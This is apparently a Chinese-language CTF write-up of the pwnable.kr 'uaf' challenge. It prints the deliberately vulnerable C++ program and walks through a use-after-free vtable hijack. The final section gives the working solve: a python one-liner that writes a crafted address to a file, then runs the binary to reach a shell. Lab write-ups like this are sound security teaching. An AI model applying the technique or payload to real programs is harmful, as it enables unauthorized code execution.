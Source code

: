 ```yaml
---
title: kr_uaf
date: 2020-01-28 10:58:41
tags:
- pwn
- pawnable.kr
---
```


# pwnable.kr uaf

### 0x0 补充知识

[[翻译]通过静态分析的Use-After-Free检测的介绍](https://bbs.pediy.com/thread-226285.htm)

C++ 类的内存分配

### 0x1 分析

题目提示了使用uaf的思路。那就好说了。

先看看开源代码：

```c
#include <fcntl.h>
#include <iostream> 
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
}
```

看来需要调用到父类的虚函数`give_shell`。那就先看一下位置吧。

<img src="https://i.loli.net/2020/01/28/UB48hwnIj59WaqM.png" style="zoom:50%;" />

那么看一下`main`函数的汇编代码。因为要利用uaf来申请已经还回的空间。需要知道大小。

<img src="https://i.loli.net/2020/01/28/QUpa9sLXMwuvZN5.png" style="zoom:50%;" />

可以看到。申请到了`0x18`的空间，即`24`。

所以我们在选择`菜单2`的时候，需要选择`24`的`len`。

而关于调用虚函数的`菜单1`：

<img src="https://i.loli.net/2020/01/28/tocbSP5Lu49WUji.png" alt=" " style="zoom:50%;" />

看起来是从虚表首地址偏移了`8`。

所以根据刚才找到的虚函数地址信息。我们需要覆盖为地址`0x00401570 - 8`这样再次调用的时候才会调用到`give_shell`。

<img src="https://i.loli.net/2020/01/28/IWpTuZgtfLwdh1X.png" style="zoom:50%;" />

所以可以来解题了。

### 0x2 解体

需要提前存储地址信息到文件用于覆盖：

`python -c 'print("\x68\x15\x40\x00\x00\x00\x00\x00")' > /tmp/uaf_1`

然后运行：

`./uaf 24 /tmp/uaf_1`

<img src="https://i.loli.net/2020/01/28/3WCeT8NLAUV1O5y.png" style="zoom:50%;" />